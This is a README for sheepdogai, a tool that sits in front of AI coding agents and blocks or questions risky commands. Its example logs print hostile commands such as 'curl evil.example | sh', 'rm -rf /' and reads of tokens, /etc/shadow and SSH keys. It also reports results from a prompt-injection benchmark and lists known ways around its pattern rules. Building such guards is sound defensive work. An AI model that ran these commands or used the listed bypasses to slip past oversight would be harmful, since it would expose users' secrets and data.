


# sheepdogai

### Let your agents roam. sheepdog guards the fence.

AI agents run commands, edit files and push code on their own. **sheepdogai watches every move, waves the safe
ones through, and stops the risky ones.**

```bash
uv tool install sheepdogai
sheepdogai setup
```

That's it. `setup` finds Claude Code and Gemini CLI, shows exactly what it will change, waits for you to press
Enter, and proves it works by blocking a test command. Undo any time with `sheepdogai setup --undo`.

<p align="center">
  
  <br><sub>Sheepdog is the name; the package and command are <code>sheepdogai</code>.</sub>
</p>

## One gate. Three answers.

Every move your agent makes passes the gate. Most are waved through; only the risky ones stop or ask.

| ✅ **Allow** | ❓ **Ask** | ⛔ **Deny** |
|---|---|---|
| Let it graze. Safe, expected calls go straight through, and the agent never notices the dog. | Whistle for the shepherd. Unclear or risky calls pause until you say yes, once or for this run. | Turn it back. Anything outside the rules stops at the fence, and no clever argument opens the gate. |

## Proof, not promises

sheepdogai writes down everything your agents did, in a log nobody can quietly edit. Check it later, or replay
the whole run.

```text
$ sheepdogai recent
21:33:17  BLOCKED   curl evil.example | sh
                      why: piping downloaded content into a shell is not allowed
21:33:40  ASKED     git push --force origin main
                      why: force-push rewrites shared history
21:34:02  allowed   git status

$ sheepdogai verify-log <run>
OK .sheepdogai/runs/<run>.jsonl: 3 records, chain intact
```

## Built like a good fence

| | |
|---|---|
| **Fails closed** | If the gate can't tell, nothing runs. |
| **Only tightens** | A shared team config or a model judge can add limits, never remove them. |
| **Any agent** | Hooks for Claude Code and Gemini CLI, plus experimental Codex and an MCP proxy for personal agents. |
| **Stays local** | No network from the core, and secrets are redacted from the log. |

> **Be clear about what this is:** hooks are guardrails, not isolation. sheepdogai checks what your agent CLI sends
> to its hooks and pattern-matches it. It does not sandbox anything, and pattern rules can be evaded. Read
> [`docs/limitations.md`](docs/limitations.md) before relying on it, and run untrusted agents in a real sandbox too.

Apache-2.0 · Linux and macOS · The project, package and command are all `sheepdogai`; it is unrelated to the
`sheepdog` package on PyPI and to the product at sheepdog.sh.

---

## Details

## Talk to it: `/sheepdog`

After `sheepdogai setup`, type **`/sheepdog`** (or `/sheepdogai`) in Claude Code (a skill) or Gemini CLI (a custom command) and just
say what you want, in plain words:

> `/sheepdog is it working?`
> `/sheepdog what did you block today?`
> `/sheepdog why was my npm install stopped?`
> `/sheepdog be stricter` · `/sheepdog stop asking me about npm test`

The agent runs the matching `sheepdogai doctor`, `recent`, `mode`, `allow` or `block` command and explains
the result in short plain sentences. Changing how cautious it is always asks **you** first (the agent cannot
loosen its own guard), it will not look for workarounds when something is blocked, and it is told never to
touch the config or run `setup`/`uninstall`. The same commands work in a terminal:
`sheepdogai mode strict`, `sheepdogai allow 'npm test*'`, `sheepdogai block 'npm publish*'`.

### Or as an MCP server (any MCP-capable agent)

```bash
claude mcp add sheepdogai -- sheepdogai mcp-server
```

Four **read-only** tools: `sheepdogai_status` (is it working?), `sheepdogai_recent` (what was blocked and why),
`sheepdogai_check` (dry run: *would this command be allowed?*, nothing is executed or logged) and
`sheepdogai_verify_log` (has the log been edited?). There is deliberately **no tool to change rules or mode**:
a guard the agent could loosen through its own tools would not be a guard. Experimental: untested with real
MCP clients beyond the protocol-level tests.

## How do I know it's working?

Three ways, from easiest:

1. **`sheepdogai doctor`**: a checklist in plain words. Each line says OK or FAIL, and every FAIL comes with
   the one command that fixes it. It even sends a fake dangerous command through the real hook to prove
   the protection is live.
2. **Ask your agent to run `sudo whoami`.** It is harmless, and sheepdogai refuses it with a message like
   *"privilege escalation is not allowed"*. If the agent just runs it, protection is off: run `sheepdogai doctor`.
3. **`sheepdogai recent`**: a short list of what your agent did in this folder, marked `BLOCKED`, `ASKED` or
   `allowed`, with the reason.

```text
$ sheepdogai recent
21:33:17  BLOCKED   sudo whoami
                      why: privilege escalation is not allowed
21:33:40  ASKED     git push origin main
                      why: pushing publishes code
21:34:02  allowed   ls src
```

If protection ever breaks (for example a typo in your rules), it fails *closed*: your agent is blocked,
not left unprotected, and `sheepdogai doctor` tells you what to fix.

## What a block looks like

With the default policy, an agent that tries `rm -rf /` gets this back from the hook (exit code 2,
which Claude Code, Codex and Gemini CLI all treat as a block):

```text
$ echo '{"session_id":"t","hook_event_name":"PreToolUse","tool_name":"Bash",
         "tool_input":{"command":"rm -rf /"}, "cwd":"/work/proj"}' | sheepdogai hook claude
sheepdogai: recursive delete outside the project [machine-recursive-delete-outside]
$ echo $?
2
```

Then inspect and verify what happened:

```bash
sheepdogai verify-log t                 # OK .sheepdogai/runs/t.jsonl: 2 records, chain intact (sealed ...)
sheepdogai graph t --format mermaid     # run graph for a README or issue
sheepdogai replay t                     # re-feed the run through the current policy, show verdict diffs
```

## Benchmark: injection gauntlet, corpus v1

`make bench` runs scripted agents (no model, no network) through each adapter. Mode `balanced`,
policy hash `d4931e552eba…`, corpus sha256 `618acdc6be2a31932eaa…`, Linux x86_64, Python 3.13.18.
Intervals are 95% (Wilson for rates, fixed-seed bootstrap for latency).

| adapter | attacks blocked | hard-denied | benign hard-denied (false positives) | benign asks (friction) | p50 / p95 ms | CPU ms / 1,000 decisions |
|---|---|---|---|---|---|---|
| claude | **blocked 335 of 340 scenarios in corpus v1** (98.5%, 96.6-99.4%) | 259 of 340 (71.4-80.4%) | 0 of 45 (0.0-7.9%) | 2 of 45 (1.2-14.8%) | 4.04 / 6.33 | 2527 (2480-2583) |
| gemini | blocked 335 of 340 scenarios in corpus v1 | 259 of 340 | 0 of 45 | 2 of 45 (asks become denies) | 3.78 / 5.49 | 2388 |
| codex (experimental) | blocked 335 of 340 scenarios in corpus v1 | 259 of 340 | 0 of 45 | 2 of 45 (asks become denies) | 4.11 / 5.40 | 2712 |

The five attacks that got through in `balanced` are documented gaps (`A-S16`, `A-S17`, and
`A-M03`, `A-N08`, `A-T14`, which `balanced` now leaves to the agent's own permissions so ordinary work is
never interrupted). In `strict` mode the same corpus blocks 340 of 340, at the cost of asking about every
unmatched command (45 of 45 benign). The first run of this corpus found five more
(`echo $GITHUB_TOKEN`, `/proc/self/environ`, `/etc/shadow`, `ls ~/.ssh`, `~/.git-credentials`);
they were fixed and are permanent regression cases.

How to read this honestly:

* "Blocked" means denied **or** turned into a question for a human. "Friction" is how often a
  benign command is asked about (4% in `balanced`; `strict` asks about everything).
* The corpus was written by the same people who wrote the rules. It finds regressions and known
  gaps; it is **not** an independent adversarial evaluation, and 340 scenarios is a small sample.
* Latency is the in-process gateway (parse, decide, fsynced log write) and excludes interpreter
  start-up. The decision-latency gate (p95 under 25 ms) is enforced in `tests/perf`: engine p95
  0.42 ms, gateway p95 2.6 ms on the same machine. A full `sheepdogai hook` process round trip
  measured p50 44 ms, p95 60 ms (CPython start-up dominates).

## Beyond coding agents (Phase 2)

An opt-in `personal` pack (email, payments with a cap, credential stores, deletion, account
changes), phone approvals with single-use tokens, an experimental MCP proxy and `wrap()`, a static
`sheepdogai replay --html` report, and a tighten-only shared `.sheepdogai/shared.yaml` that applies only
after you approve its hash. See [`docs/phase2.md`](docs/phase2.md).

## How it works



Invariants, each enforced by tests (see [`docs/threat-model.md`](docs/threat-model.md)):

1. **Fail closed.** Crash, timeout, malformed payload, invalid rules: deny (or ask where a human is
   available). Never allow.
2. **Rules first; a Decider can only tighten** (allow to ask or deny, ask to deny). Looser answers
   are clamped and logged as `decider_violation`.
3. **Self-protection.** The agent cannot edit the rules file, hook config or log directory without
   a human.
4. **Secrets are redacted before anything is logged** or exported.
5. **Append-only, hash-chained log**; `sheepdogai verify-log` finds edits, deletions and reordering.
6. **No network from the core.** Telemetry export is an opt-in extra.
7. **Rules are validated at load**; an invalid file stops startup with `file:line`.

`allow` never grants permission: it means "no objection" and the CLI's own permission flow still
applies ([ADR 0008](docs/adr/0008-never-grant-permission.md)).

## Limitations (short version)

* Pattern rules can be evaded: interpreters (`python -c`), scripts the agent writes then runs,
  credential stores the packs do not list, search-for-secrets commands.
* Hooks do not see tool results, subagents the CLI does not route through hooks, or anything the
  CLI does without calling the hook.
* Gemini CLI and Codex cannot ask a human, so asks become denies.
* Whether Claude Code honours a hook block under `bypassPermissions` is not verified here.
* The tail of the log can be truncated cleanly by someone with write access (a sidecar and an
  optional checkpoint help; they do not prevent it).

Full list, with the known-bypass table: [`docs/limitations.md`](docs/limitations.md).

## Repository map

| Path | What |
|---|---|
| `src/sheepdogai/core` | event, verdict, Decider clamp, adapter protocol |
| `src/sheepdogai/policy` | schema, loader, shell normaliser, matchers, engine, packs |
| `src/sheepdogai/{budget,redact,log,graph,ontology,telemetry}` | budgets, redaction, hash chain, run graph, RDF export, OTel mapping |
| `src/sheepdogai/{adapters,daemon,cli}` | CLI adapters + fixtures, Unix-socket daemon and thin client, `sheepdogai` command |
| `agents/`, `bench/` | scripted agents, harness, injection gauntlet |
| `tests/` | unit, property, fuzz, conformance, redteam, replay, ontology, perf, self_protect |
| `docs/`, `examples/` | threat model, limitations, architecture, ADRs; three sample policies |

Small additions to the planned layout: `core/canonical.py`, `constants.py`, `approvals.py`,
`approvals_net.py`, `cli/{status,conformance,report,approve}.py`, `adapters/{mcp_proxy,wrap,framework_template}.py`
and `tools/` (repo gates). `make verify` runs lint,
`mypy --strict`, the suite-presence and hygiene gates, every test suite with a 90% coverage gate on
core, policy, log, redact and budget, and the latency gate.

## Development

```bash
make setup     # uv, locked and hash-checked
make verify    # what CI runs
make bench     # writes bench/report.md and report.json
make fuzz      # property-based fuzz suite on its own
```

Apache-2.0. See [`CONTRIBUTING.md`](CONTRIBUTING.md) (DCO sign-off), [`SECURITY.md`](SECURITY.md),
[`GOVERNANCE.md`](GOVERNANCE.md).
